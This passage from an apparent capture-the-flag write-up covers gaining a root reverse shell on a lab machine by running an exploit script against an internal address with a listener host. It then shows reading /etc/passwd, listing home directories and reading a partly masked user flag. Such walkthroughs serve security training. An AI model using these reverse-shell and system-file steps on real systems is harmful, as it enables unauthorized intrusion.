 Successfully established a reverse shell as root! Remember that a reverse port forwarding is needed to access 122.4.

```bash
python3 vault2.py -t 192.168.122.4 --lhost 192.168.122.1
```

<img src="/assets/img/vault/Untitled 16.png" alt="Untitled 16.png" style="width:800px;">

There are other users as well.

```
root@DNS:/home# cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
alex:x:1000:1000:alex,,,:/home/alex:/bin/bash
dave:x:1001:1001:,,,:/home/dave:/bin/bash

root@DNS:/home# ls -lah /home

total 16K
drwxr-xr-x  4 root root 4.0K Jul 17  2018 .
drwxr-xr-x 22 root root 4.0K Jul 17  2018 ..
drwxr-xr-x  4 alex alex 4.0K Jul 17  2018 alex
drwxr-xr-x  5 dave dave 4.0K Sep  3  2018 dave
```

Finally got the user flag (root ain’t done yet).

```
root@DNS:/home# cat /home/dave/user.txt
a4947faa8d4e1f80****************
```

# PrivEsc
